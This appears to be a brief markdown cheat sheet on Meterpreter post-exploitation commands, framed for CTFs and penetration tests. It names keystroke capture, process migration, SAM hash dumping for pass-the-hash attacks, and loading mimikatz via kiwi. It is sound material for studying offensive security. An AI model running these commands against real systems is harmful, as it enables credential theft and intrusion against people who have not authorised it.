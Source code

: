 # Meterpreter

### Specialized shell that runs on memory (AV Evasion) and encrypts traffic communication with the server Metasploit runs.

## PROTIP: Run help command to find the appropriate at the time command to use.

# POST EXPLOITATION WITH METERPRETER

#### 1) 

    Help

#### 2) 

    Getuid

#### 3) 

    Getpid

#### 4) 

    ps

#### 5) (Depending on the process to migrate, we can use key_scan start/stop/dump (word.exe,notepad.exe) to utilize some meterpreter commands) (Privesc/Privdeesc)

    migrate 

#### 6) (List SAM Database content) (Windows) (Pash-the-Hash/Rainbow Table attacks)

    Hashdump 

#### 7) (Search flags in CTF, configuration or user-generated files in penetration testing engagements)

    Search -f FILE 

#### 8) (CTRL + Z to get back to meterpreter) 

    Shell 

## PROTIP: We can use load command to load tools that give meterpreter extra functionality (mimikatz: load kiwi)
